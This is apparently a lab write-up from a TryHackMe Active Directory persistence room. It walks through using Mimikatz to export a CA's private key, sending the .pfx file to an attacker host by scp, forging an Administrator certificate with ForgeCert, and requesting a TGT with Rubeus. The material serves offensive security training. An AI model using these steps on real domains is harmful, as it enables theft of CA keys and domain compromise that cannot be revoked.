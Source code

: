 # Persistence through Certificates

In the Exploiting AD room, we leveraged certificates to become Domain Admins. However, certificates can also be used for persistence. All we need is a valid certificate that can be used for Client Authentication.&#x20;

This will allow us to use the certificate to request a TGT. The beauty of this? We can continue requesting TGTs no matter how many rotations they do on the account we are attacking. The only way we can be kicked out is if they revoke the certificate we generated or if it expires. Meaning we probably have persistent access by default for roughly the next 5 years.

Depending on our access, we can take it another step further. We could simply steal the private key of the root **Cerificate Authority (CA)**'s certificate to generate our own certificates whenever we feel like it. Even worse, since these certificates were never issued by the CA, the blue team has no ability to revoke them.

***

### <mark style="color:green;">Extracting the Private Key</mark>

If the CA’s private key isn’t protected by hardware like an Hardware Security Module (HSM), it’s stored on the CA server and secured using <mark style="color:red;">Windows' Data Protection API (DPAPI)</mark>. This means attackers can use tools like Mimikatz or SharpDPAPI to extract the CA certificate and private key.

View certificates stored on the DC:

```powershell
mimikatz.exe
mimikatz # crypto::certificates /systemstore:local_machine
```

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

We can see that there is a CA certificate on the DC. We can also note that some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable:

```powershell
mimikatz # privilege::debug
mimikatz # crypto::capi
mimikatz # crypto::cng
```

<figure><img src="../../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

With these services patched, we can use Mimikatz to export the certificates:

```powershell
mimikatz # crypto::certificates /systemstore:local_machine /export
```

<figure><img src="../../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

The exported certificates will be stored in both PFX and DER format to disk:

<figure><img src="../../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

We are interested in the `.pfx` certificate because it contains the private key. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`

Transfer the private key to low privileged user's home directory on THMWRK1 use scp.

Copy it to attacker's machine first

```
scp local_machine_My_0_.pfx <USER>@<ATTACKER_IP>:/home/<USER>
```

Then transfer it to THMWRK1's low privileged user

```bash
scp local_machine_My_0_.pfx <USER>@<VICTIM_IP>:\C:\Users\<USER>\local_machine_My_0_.pfx
```

<figure><img src="../../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:green;">Generating our own Certificates</mark>

Now that we have the private key and root CA certificate, we can use `ForgeCert` tool to forge a Client Authenticate certificate for any user we want.&#x20;

```powershell
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

* <mark style="background-color:orange;">**CaCertPath**</mark> - The path to our exported CA certificate.
* <mark style="background-color:orange;">**CaCertPassword**</mark> - The password used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.
* <mark style="background-color:orange;">**Subject**</mark> - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
* <mark style="background-color:orange;">**SubjectAltName**</mark> - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
* <mark style="background-color:orange;">**NewCertPath**</mark> - The path to where ForgeCert will store the generated certificate.
* <mark style="background-color:orange;">**NewCertPassword**</mark> - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.

<figure><img src="../../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>

Now, we can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted.

```powershell
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```

( I didn't know why it didnt trust the client and didnt work but it should come out like this and generated our TGT)

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

and then use Mimikatz to load the TGT and authenticate to THMDC:

<figure><img src="../../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

